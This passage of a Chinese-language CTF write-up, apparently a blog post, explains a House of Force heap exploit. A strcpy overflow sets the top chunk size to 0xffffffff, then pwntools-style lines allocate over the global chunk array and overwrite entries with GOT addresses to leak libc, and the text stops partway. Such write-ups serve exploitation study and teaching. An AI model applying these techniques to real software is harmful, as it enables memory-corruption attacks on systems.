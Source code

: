 
再看另一个函数

![在这里插入图片描述](https://img-blog.csdnimg.cn/bb98a27de4be4519be9e3503290cfd6c.png)

### 栈布局

	-0000005C v2 dd ?
	-00000058 db ? ; undefined
	-00000057 db ? ; undefined
	..........
	-00000016 db ? ; undefined
	-00000015 db ? ; undefined
	-00000014 v4 dd ?
	-00000010 db ? ; undefined
	-0000000F db ? ; undefined
	-0000000E db ? ; undefined
	-0000000D db ? ; undefined

这里的v2，v3和v4，s都是位于栈上的，且在栈上s和v4的空间是连着的，而strcpy复制结束的标志是’\x00’，如果我们将s填满（b'b'*0x40），再将v3写为0xffffffff，那么strcpy(v4, v3);会把v4变为0xffffffff， strcpy(v2, s);会把b'b'*0x40+0xffffffff复制给v2，而v2也是一个size大小为0x40的chunk的mem指针，0xffffffff将覆盖到chunkv2 的下一位，而下一位正好是top chunk的大小，这样我们就成功将top chunk的大小改为了0xffffffff（-1）

	sa('Org:','a'*0x40)
	sla('Host:',p32(0xFFFFFFFF))
	top_chunk_addr = heap_addr  + 0x48*3 - 0x8
	lg('top_chunk_addr',(top_chunk_addr))
	
![在这里插入图片描述](https://img-blog.csdnimg.cn/1e772846eb6a4d7faeba1dfc57a33fb4.png)


之后就来算一下存放chunk指针的全局数组heap_array（0x0804B120）与top chunk的距离，
因为程序一开始就申请了三个大小为0x40的chunk(算上头指针为0x48)，第一次泄露的heap已经算上头指针，heap与top chunk距离0x48*3-0x8=0xD0大小，再加上我们一开始泄露出来的heap的地址（heap_addr）就是top chunk的mem指针地址，

	offset = heap_array - （top_chunk_addr +0x8）- 0x8

![在这里插入图片描述](https://img-blog.csdnimg.cn/887a555d558f466eb43f0f22020b5bf9.png)

 heap_array - top_chunk_addr是top chunk的mem地址,减去0x8字节是top chunk的头指针地址，
之后申请offset-0x10大小的chunk，之所以是再减0x8是因为我们要将heap_array作为mem区域来修改，第一次申请offset-0x10大小的chunk，为第二次申请的chunk预留出chunk头的0x8字节大小（0x4字节的pre_size位和0x4字节的now_size位）。再次申请chunk即为heap_array为mem区域的chunk，可修改heap_array数组，

	add(offset,'\n')	
	add(0x18,'\n')
之后编辑chunk_1来修改heap_array数组
	
	puts_plt = elf.plt['puts']
	__libc_start_main_got = elf.got['__libc_start_main']
	free_got = elf.got['free']
	edit(1,p32(0) + p32(free_got) + p32(__libc_start_main_got) + p32(heap_array + 0x10) + b'\x00'*0x8)

此时chunk依次为0，free_got，__libc_start_main_got，heap_array+0x10（保持原3号chunk不变）

	edit(1,p32(puts_plt) + b'\n')

